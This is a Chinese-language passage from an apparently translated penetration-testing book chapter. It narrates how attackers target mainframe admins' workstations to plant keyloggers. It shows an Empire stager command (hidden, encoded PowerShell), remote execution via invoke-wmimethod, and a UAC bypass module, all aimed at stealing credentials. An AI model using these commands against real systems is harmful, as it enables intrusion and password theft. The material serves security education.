 # 第六章、难以想象的黑客攻击

> 一切皆有可能！ -- 巴尼·斯汀森（Barney Stinson）

## 6.1.首要位置

我们可以直接攻击主机（端口扫描、暴力等），但我们真的需要吗？让我们聪明一点…我们控制网络上的每个Windows工作站。大型机管理员使用这些相同的工作站连接到大型机。如果我们能监视他们并获取他们的密码，那么我们就能进入主机！

我们在 10.10.20.118 上执行 net 命令，展开 mainframeAdms 组：

 ![](.gitbook/assets/1.netgroup.jpg)

使用 Invoke UserHunter 或 Invoke EventHunter 来定位 Barney 和 Rev 的工作站，就像我们之前使用 Juliette 的计算机一样，然后准备我们的攻击载荷。

我们可以用不同的方法在他们的工作站上运行键盘记录器:

* 窃取他们的凭据，然后利用 pass-the-hash 方式远程连接到他们的工作站，启动键盘记录器。（尽管这些帐户需要具有本地管理权限，但事实显然并非如此。）
* 使用一个域帐户，通过 empire agent 来感染他们的工作站，然后启动键盘记录器。\(译注：Empire 是一个纯粹的 PowerShell 后开发代理，建立了密码安全的通信和灵活的架构。Empire 实现了无需 powershell.exe 即可运行 PowerShell 代理的功能，从键盘记录器到 Mimikatz 等快速部署的后期开发模块，以及适应性通信以逃避网络检测，所有这些都包含在以可用性为中心的框架中。\)
* 部署针对他们的恶意GPO。

我们选择第二个选项是因为 Barney 的计算机允许我们使用 WMI 执行远程命令（他的计算机上的PRC端口是打开的：端口135和高于49152的端口）。

我们在 Front Gun 服务器上生成 stager 的代码:

```text
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBl
```

然后我们将其包含在 10.10.20.118 计算机的 WMI 远程调用中:

```text
PS> invoke-wmimethod -ComputerName FRPC021 win32_process -name create -argumentlist ("powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUYA…")
```

当然，我们有一个新的代理连接到adm\_supreme帐户：

 ![](.gitbook/assets/2.empire-stager.jpg)

我们使用经过验证的 bypassuac\_eventvwr 模块绕过UAC，然后与新提权的会话交互。
